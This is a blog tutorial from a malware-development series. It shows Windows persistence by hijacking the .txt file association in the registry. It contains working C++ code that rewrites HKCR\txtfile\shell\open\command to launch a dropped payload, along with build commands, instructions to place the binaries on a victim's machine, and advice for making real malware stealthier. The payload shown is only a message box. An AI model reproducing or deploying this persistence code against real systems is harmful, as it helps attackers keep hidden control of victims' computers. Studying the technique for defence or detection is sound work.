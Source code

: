 ```yaml
---
title:  "Malware development: persistence - part 9. Default file extension hijacking. Simple C++ example."
date:   2022-08-26 05:00:00 +0300
header:
  teaser: "/assets/images/66/2022-08-29_02-25.png"
categories:
  - malware
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![pers](/assets/images/66/2022-08-29_02-25.png){:class="img-responsive"}    

This article is the result of my own research into one of the interesting malware persistence trick: hijacking default file extension.    

### default file association     

For example, when a `.txt` file is double-clicked, `notepad.exe` is used to open it.     

![pers](/assets/images/66/2022-08-29_02-17.png){:class="img-responsive"}    

Windows knows that it must use `notepad.exe` to access `.txt` files because the `.txt` extension (and many others) are mapped to applications that can open such files in the registry: `HKEY_CLASSES_ROOT`.

It is possible to hijacking a default file association to execute a malicious program.     

### practical example    

Let's go to hijack `.txt`. In this case, the `.txt` extension handler is specified in the registry key listed below:     

`HKEY_CLASSES_ROOT\txtfile\shell\open\command`    

Run command:    

```powershell
req query "HKCR\txtfile\shell\open\command" /s
```

![pers](/assets/images/66/2022-08-29_02-19.png){:class="img-responsive"}    

Then, create our "malicious" application:     

```cpp
/*
hack.cpp
evil app for windows persistence via
hijacking default file extension
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/08/26/malware-pers-9.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

As you can see, the logic is pretty simple as usually: just pop-up `meow-meow` messagebox.    

At the next step, hijack the `.txt` file extension by modifying the value data of `\HKEY_CLASSES_ROOT\txtfile\shell\open\command` by this script:     

```cpp
/*
pers.cpp
windows persistence via
hijacking default file extension
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/08/26/malware-pers-9.html
*/
#include <windows.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // command for replace
  // "%SystemRoot%\\system32\\NOTEPAD.EXE %1"
  // malicious app
  const char* cmd = "Z:\\2022-08-26-malware-pers-9\\hack.exe";

  // hijacking logic
  LONG res = RegOpenKeyEx(HKEY_CLASSES_ROOT, (LPCSTR)"\\txtfile\\shell\\open\\command", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update key
    RegSetValueEx(hkey, (LPCSTR)"", 0, REG_SZ, (unsigned char*)cmd, strlen(cmd));
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see, in this source code we just replace `%SystemRoot%\system32\NOTEPAD.EXE %1` with `Z:\2022-08-26-malware-pers-9\hack.exe`.

### demo

Let's go to see everything in action. Compile our malware:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/66/2022-08-29_04-21.png){:class="img-responsive"}    

The generated `hack.exe` needs to be dropped into the victim’s machine.    

Then, compile the program responsible for persistence:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/66/2022-08-29_04-22.png){:class="img-responsive"}    

The generated `pers.exe` also needs to be dropped into the victim’s machine.     

Then just run:    

```powershell
.\pers.exe
```

![pers](/assets/images/66/2022-08-29_02-21.png){:class="img-responsive"}    

So, try to open `.txt` file, for example double-click `test.txt`:     

![pers](/assets/images/66/2022-08-29_02-22.png){:class="img-responsive"}    

![pers](/assets/images/66/2022-08-29_02-24.png){:class="img-responsive"}    

As you can see, the "malware" will be executed. Perfect! :)    

Then, cleanup:    

```powershell
reg add "HKEY_CLASSES_ROOT\txtfile\shell\open\command" /ve /t REG_SZ /d "%SystemRoot%\system32\NOTEPAD.EXE %1"
```

![pers](/assets/images/66/2022-08-29_02-34.png){:class="img-responsive"}    

It would be good practice to do this (in real malware) with little bit different logic so that the victim user will still be able to open the original `.txt` file, but he will additionally run the malicious activity.     

This persistence trick is used by [SILENTTRINITY](https://attack.mitre.org/software/S0692/) framework. This malware was used in a 2019 campaign against Croatian government agencies by unidentified cyber actors.       

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.    

[MITRE ATT&CK: Change Default File Association](https://attack.mitre.org/techniques/T1546/001/)     
[SILENTTRINITY](https://attack.mitre.org/software/S0692/)     
[source code on Github](https://github.com/cocomelonc/2022-08-26-malware-pers-9)       

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
